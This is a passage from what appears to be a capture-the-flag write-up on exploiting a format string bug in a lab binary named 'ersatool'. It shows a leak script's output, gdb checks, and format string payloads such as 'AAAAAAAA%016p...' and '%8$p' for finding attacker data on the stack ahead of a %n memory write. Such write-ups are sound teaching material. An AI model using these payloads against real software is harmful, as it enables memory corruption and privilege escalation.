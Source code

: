 I have the `p.interactive()` at the end so that the process doesn’t die, and I
can connect `gdb` to it and verify the results. When I run, it prints what
looks like a good leak:

    
    
    oxdf@parrot$ python3 root.py 
    [+] Starting local process './ersatool': pid 540189
    [+] Leaked EXT address:          0x00005648ade1615f
    [+] Calculated ERSA_DIR address: 0x00005648ade160f0
    [*] Switching to interactive mode
    $
    

Running `sudo gdb -p $(pidof ersatool)` will attach `gdb` to that pid, and it
worked:

    
    
    gdb-peda$ p &ERSA_DIR 
    $1 = (<data variable, no debug info> *) 0x5648ade160f0 <ERSA_DIR>
    

#### POC Write Memory

The next thing I need to do is write memory to a known address. With all of
the other specifiers, they read a value or a string and put it into the
string. `%n` is different. It takes an address, and writes to that address the
number of bytes output so far.

I want the `%n` to read the address of `ERSA_DIR`, so I’ll exploit the format
string vuln again, this time with that address on the stack in a place I can
reference it. I already noted it above, but it’s more clear with
`AAAAAAAA%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p` as input:

    
    
    print->CN=AAAAAAAA%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.
    AAAAAAAA0x005602a095415f.0x00000000000005.0x000000006e7076.0x00000000000017.0x007ffee58fbb10.0x000001a09501d0.           (nil).0x4141414141414141.[!] ERR reading /opt/easyrsa/clients/AAAAAAAA%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p..ovpn!
    

The eighth word has all 0x41, which is “A”. I can reference the eighth word by
`%8$p`:

    
    
    print->CN=AAAAAAAA%8$p
    AAAAAAAA0x4141414141414141[!] ERR reading /opt/easyrsa/clients/AAAAAAAA%8$p.ovpn!
    

That replaces `%8$p` with the eighth argument on the stack, which happens to
be the string of As.

The next logical step would be to replace the eight As with the address of
`ERSA_DIR` and try to print that back, but it didn’t work. That’s because the
first couple bytes in the address of `ERSA_DIR` are null, and thus they
terminate the string. The format string is
[defined](https://man7.org/linux/man-pages/man3/printf.3.html) as a “character
string”, and it’s undefined how to handle null bytes, but it makes sense that
when it hits these null bytes the string is treated as complete (since null
bytes mark the end of a string).
